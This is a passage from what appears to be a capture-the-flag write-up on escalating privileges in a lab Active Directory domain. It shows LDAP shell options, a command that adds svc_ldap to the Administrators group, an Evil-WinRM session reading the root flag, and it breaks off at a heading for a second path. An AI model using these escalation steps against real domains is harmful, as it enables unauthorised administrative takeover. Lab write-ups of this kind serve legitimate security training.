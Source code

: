      start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
     write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
     exit - Terminates this session.



The one that works is `add_user_to_group`:



    # add_user_to_group svc_ldap administrators
    Adding user: svc_ldap to group Administrators result: OK



I'll reconnect with a new Evil-WinRM shell as svc_ldap, and now it has
the administrators group:

![](/img/image-20231127142325929.png)

That's enough to read `root.txt`:



    *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
    367eb8b3************************



#### PassTheCert -\> TGT \[Path 2\]
